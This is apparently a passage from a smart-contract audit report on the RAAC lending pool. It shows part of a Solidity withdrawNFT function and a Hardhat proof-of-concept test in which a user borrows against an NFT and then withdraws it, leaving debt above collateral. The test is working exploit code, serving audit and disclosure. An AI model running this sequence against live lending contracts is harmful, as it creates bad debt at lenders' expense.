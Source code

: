 ```solidity
        // Remove NFT from user's deposited NFTs
        for (uint256 i = 0; i < user.nftTokenIds.length; i++) {
            if (user.nftTokenIds[i] == tokenId) {
                user.nftTokenIds[i] = user.nftTokenIds[user.nftTokenIds.length - 1];
                user.nftTokenIds.pop();
                break;
            }
        }
        user.depositedNFTs[tokenId] = false;

        raacNFT.safeTransferFrom(address(this), msg.sender, tokenId);

        emit NFTWithdrawn(msg.sender, tokenId);
    }

```

The exploit occurs where an attacker can deposit multiple nfts, use these as collateral to borrow assets and then be able to withdraw nfts from RAAC leaving them with more debt than their collateral which creates insolvent positions and bad debt for RAAC.

## Proof Of Code (POC)

The following test was run in LendingPool.test.js in the "borrow and repay" describe block.

```javascript
it("user can withdraw their nft when in debt", async function () {
  //c for testing purposes

  await raacHousePrices.setHousePrice(2, ethers.parseEther("100"));

  const amountToPay = ethers.parseEther("100");

  //c mint nft for user1. this mints an extra nft for the user. in the before each of the initial describe in LendingPool.test.js, user1 already has an nft
  const tokenId = 2;
  await token.mint(user1.address, amountToPay);

  await token.connect(user1).approve(raacNFT.target, amountToPay);

  await raacNFT.connect(user1).mint(tokenId, amountToPay);

  //c depositnft for user1
  await raacNFT.connect(user1).approve(lendingPool.target, tokenId);
  await lendingPool.connect(user1).depositNFT(tokenId);

  //c user borrows debt
  const borrowAmount = ethers.parseEther("110");
  console.log("borrowAmount", borrowAmount);
  await lendingPool.connect(user1).borrow(borrowAmount);

  //c user can withdraw one of their nfts which makes their debt worth more than their collateral
  await lendingPool.connect(user1).withdrawNFT(tokenId);

  const userCollateral = await lendingPool.getUserCollateralValue(
    user1.address
  );
  console.log("userCollateral", userCollateral);

  const user1debt = await debtToken.balanceOf(user1.address);
  console.log("user1debt", user1debt);

  assert(user1debt > userCollateral);
});
```